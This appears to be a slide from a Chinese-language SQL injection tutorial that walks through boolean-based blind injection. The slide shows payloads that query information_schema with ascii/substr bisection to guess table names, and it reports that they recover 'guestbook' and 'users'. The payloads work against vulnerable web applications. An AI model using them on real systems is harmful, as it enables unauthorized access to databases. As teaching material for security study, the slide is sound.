

接下来，继续用二分法来猜测表名。
| 1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))>97 # 显示存在 1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<122 # 显示存在 1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<109 # 显示存在 1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))<103 # 显示不存在 1' and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))>103 # 显示不存在 |
| --- |
说明第一个表的名字的第一个字符为小写字母g。
重复上述步骤，即可猜解出两个表名（guestbook、users）。